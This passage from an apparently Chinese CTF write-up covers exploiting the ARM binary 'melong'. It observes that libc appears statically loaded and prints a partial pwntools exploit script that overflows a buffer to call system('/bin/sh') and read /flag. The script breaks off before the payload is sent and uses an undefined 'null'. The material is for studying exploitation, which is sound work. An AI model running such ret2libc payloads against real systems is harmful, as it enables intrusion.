[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-07-153456.png)

##### <a class="reference-link" name="%E9%9D%99%E6%80%81libc%E5%8A%A0%E8%BD%BD%EF%BC%9F"></a>静态libc加载？

接下来我们发现，连续的两次泄露中，puts的got表地址并没有发生变化，也就是说！这里的libc文件可能是静态加载到程序里的！那么我们可以直接构造最终的exploit！

#### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='arm'
remote_gdb=False

melong=ELF('./melong')

libc=ELF("/usr/arm-linux-gnueabi/lib/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./libc-2.30.so", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    elif remote_gdb:
        sh = process(["qemu-arm", "-g", "2333", "-L", "/usr/arm-linux-gnueabi", "./melong"])
        log.info('Please use GDB remote!(Enter to continue)')
        raw_input()
        return sh
    else :
        return process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "./melong"])

def get_address(sh,arch_num=null,info=null,start_string=null,end_string=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif arch_num == 64:
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

if __name__ == "__main__":
    # print(args['DEBUG'])
    sh = get_sh(True)
    libc_base = 0xff6b6f98 - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    binsh_addre = libc_base + libc.search('/bin/sh').next()
    # payload  = 'A' * 0x54 + p32(0x00011bbc) + p32(melong.got['puts']) + p32(melong.plt['puts'])
    payload  = 'A' * 0x54 + p32(0x00011bbc) + p32(binsh_addre) + p32(system_addr)
    sh.recvuntil('Type the number:')
    sh.sendline('1')
    sh.recvuntil('Your height(meters) : ')
    sh.sendline('1')
    sh.recvuntil('Your weight(kilograms) : ')
    sh.sendline('1')
```